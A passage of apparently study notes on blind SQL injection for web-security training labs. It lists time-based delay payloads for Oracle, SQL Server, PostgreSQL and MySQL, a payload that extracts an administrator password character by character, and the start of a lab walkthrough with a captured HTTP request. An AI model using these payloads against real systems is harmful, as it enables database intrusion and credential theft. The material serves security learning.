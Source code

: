 ```txt
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'-- 
```

You can use this technique to retrieve data (e.g., one character at a time):

```txt
'; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'-- 
```

Following is a table containing the commands used to trigger a delay:

| Database   | Technique                           |
| ---------- | ----------------------------------- |
| Oracle     | dbms_pipe.receive_message(('a'),10) |
| Microsoft  | WAITFOR DELAY '0:0:10'              |
| PostgreSQL | SELECT pg_sleep(10)                 |
| MySQL      | SELECT sleep(10)                    |

Also, combined with conditions:

| Database   | Technique                                                                                                      |
| ---------- | -------------------------------------------------------------------------------------------------------------- |
| Oracle     | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual |
| Microsoft  | IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'                                                                |
| PostgreSQL | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END                                  |
| MySQL      | SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')                                                                   |

## Labs

### Lab 1

> Blind SQL injection with conditional responses

After visiting the products page, we're assigned a Cookie, as you can see:

```http
GET /academyLabHeader HTTP/1.1
Host: ac8b1fb11f7860c88050c03f000c005f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Sec-WebSocket-Version: 13
Origin: https://ac8b1fb11f7860c88050c03f000c005f.web-security-academy.net
Sec-WebSocket-Key: 99uMcuVo9rTNCkvb1oDL/A==
Connection: keep-alive, Upgrade
Cookie: TrackingId=An7ULvNAx2nN1yR0; session=CAFbY8etgaQhKir9cteDfJIpY9dT0vSL
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket
```
